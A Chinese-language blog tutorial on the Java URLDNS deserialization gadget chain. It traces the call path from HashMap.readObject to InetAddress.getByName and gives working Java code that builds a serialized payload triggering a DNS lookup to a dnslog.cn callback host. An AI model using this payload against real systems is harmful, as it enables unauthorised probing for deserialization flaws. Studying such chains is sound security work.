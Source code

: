 ```yaml
---
title: URLDNS利用链
date: 2023-04-01 20:44:51
tags: Java
cover: https://raw.githubusercontent.com/todis21/image/main/202304021635959.png
---
```


# URLDNS利用链

URLDNS利用链是java原生的一条利用链，通常用来验证是否存在反序列化漏洞，因为是原生的，所以不存在版本限制

特点:

- 不限制jdk版本，使用Java内置类，对第三方依赖没有要求
- 目标无回显，可以通过DNS请求来验证是否存在反序列化漏洞
- URLDNS利用链，只能发起DNS请求，并不能进行其他利用



## HashMap

HashMap 是一个存储键值对的容器。 每个键与一个值关联。 `HashMap`中的键必须唯一。 `HashMap`在其他编程语言中称为关联数组或词典。 `HashMaps`占用更多内存，因为每个值还有一个键。 删除和插入操作需要固定的时间。 `HashMaps`可以存储空值。

基本用法：

创建对象

```java
HashMap<String,Integer> hashMap = new HashMap<>();
```

添加键值对：

```java
hashMap.put("aa",1);
hashMap.put("bb",2);
hashMap.put("cc",3);
```

put方法会覆盖原有的value，而另一种put方法不会覆盖：putIfAbsent(key,value)

```java
hashMap.putIfAbsent("aa",4);
```

该方法首先会判断key是否存在，如果存在且value不为null，则不会覆盖原有的value，并返回原来的value；如果key不存在或者key的value为null，则会put进新值，并返回null。



## 原理：

`java.util.HashMap` 重写了 `readObject`, 在反序列化时会调用 `hash` 函数计算 key 的 hashCode.而 `java.net.URL` 的 hashCode 在计算时会调用 `getHostAddress` 来解析域名, 从而发出 DNS 请求

## 流程

**HashMap.readObject()-->HashMap.putVal()-->HashMap.hash()-->URL.hashcode()-->URLStreamHandler().hashCode().getHostAddress()-->URLStreamHandler().hashCode().getHostAddress().getByName()** 

```java
1. HashMap --> readObject()
2. HashMap --> hash()
3. URL --> hashCode()
4. URLStreamHandler --> hashCode()
5. URLStreamHandler --> getHostAddress()
6. InetAddress --> getByName()
```



## 代码

```java
import java.lang.reflect.Field;
import java.util.HashMap;
import java.net.URL;
import java.io.*;


public class Test {
    public static void main(String[] args) throws Exception {
    HashMap<URL,Object> hashMap=new HashMap<>();
    URL url = new URL("http://7zswrn.dnslog.cn");
    Field field= url.getClass().getDeclaredField("hashCode");
    field.setAccessible(true);
    field.set(url,123);
    hashMap.put(url,1);
    field.set(url,-1);

    new ObjectOutputStream(new FileOutputStream("bin.ser")).writeObject(hashMap);
    Object o = new ObjectInputStream(new FileInputStream("bin.ser")).readObject();
    System.out.println(o);
    }

}
```

运行时需要添加`--add-opens java.base/java.net=ALL-UNNAMED`  不然会报错

![image-20230402142752339](https://raw.githubusercontent.com/todis21/image/main/202304021427567.png)

## 流程分析

这个利用链的入口在HashMap里，它实现了Serializable接口，说明它支持序列化和反序列化

![image-20230402143132873](https://raw.githubusercontent.com/todis21/image/main/202304021636523.png)

在HashMap类中，它重写了readObjec()方法，在反序列化的执行过程中，就会优先执行这里的readObjec()方法



![image-20230402143855396](https://raw.githubusercontent.com/todis21/image/main/202304021636208.png)

然后跟着链子往下,这是readObjec()最后一行代码，调用了`putVal()`方法，参数中使用了`hash(key)`，这个`key`就行我们传进去的url

,即`http://7zswrn.dnslog.cn`

![image-20230402144047378](https://raw.githubusercontent.com/todis21/image/main/202304021636604.png)

跟进`hash()`方法,发现里面调用的是Object.hashCode()方法，但是这不是我们想要的

![image-20230402144603150](https://raw.githubusercontent.com/todis21/image/main/202304021636599.png)

需要调试获取我们想要的hashcode(),在`readObjec().putVal()`方法处下断点

![image-20230402145209616](https://raw.githubusercontent.com/todis21/image/main/202304021637404.png)

步进，看到key就是我们传入的参数url

![image-20230402145323587](https://raw.githubusercontent.com/todis21/image/main/202304021637991.png)

再步进，此时已经跳到了`URL`的hashCode()里面了，这里可以知道很清晰的代码逻辑，此时`hashCode==-1`,不会直接返回hashCode，而是执行`hashCode = handler.hashCode(this);`

![image-20230402150215474](https://raw.githubusercontent.com/todis21/image/main/202304021637711.png)

再步进，此时已经到了URLStreamHandler类，看到触发函数getHostAddress()

![image-20230402150338349](https://raw.githubusercontent.com/todis21/image/main/202304021637628.png)

继续步进，往下走，看到最终发起请求的方法`InetAddress.getByName()`

![image-20230402152803865](https://raw.githubusercontent.com/todis21/image/main/202304021637276.png)



![image-20230402153437447](https://raw.githubusercontent.com/todis21/image/main/202304021638093.png)

PS:刚刚的地址失效了，重新获取了地址olliao.dnslog.cn

![image-20230402154053223](https://raw.githubusercontent.com/todis21/image/main/202304021638558.png)





##  代码分析

先创建两个对象

```java
HashMap<URL,Object> hashMap=new HashMap<>();
URL url = new URL("http://olliao.dnslog.cn");//主角
```

添加键值对,值随便写

```java
hashMap.put(url,1);
```

看看put源码，会发现，它put方法里调用的hash(),key就是传进来的url,然后就是上面那套逻辑了

![image-20230402155135951](https://raw.githubusercontent.com/todis21/image/main/202304021638472.png)

URL中hashCode初始值为-1,说明还没有被初始化，初始化后会进行hash运算，hashCode的值会变成运算出来的hash

![image-20230402155719523](https://raw.githubusercontent.com/todis21/image/main/202304021638237.png)

此时会运行到这里执行hashCode(),然后就因为hashCode=-1发起请求包，还没反序列化就执行了

![image-20230402144603150](https://raw.githubusercontent.com/todis21/image/main/202304021638870.png)

所以要让它不发包，不能让hashCode=-1,导致进行发包请求.

通过Java反射获取hashCode,把他修改

```java
Field field= url.getClass().getDeclaredField("hashCode");
```

因为hashCode是`private`私有属性，不能直接修改，所以打开对该字段的访问权限，让hashCode可以被操作

```java
field.setAccessible(true);
```

将 url 对象的 hashCode 字段的值设置为 123,只要不是`-1`就行

```java
field.set(url,123);
```



在后面，需要反序列化去操作它的时候，再把hashCode的值改回`-1`,这样才会去走那段发请求的代码

```java
field.set(url,-1);
```



然后就是序列化和反序列化操作了

```java
new ObjectOutputStream(new FileOutputStream("bin.ser")).writeObject(hashMap);
Object o = new ObjectInputStream(new FileInputStream("bin.ser")).readObject();
System.out.println(o);//简单输出一下
```







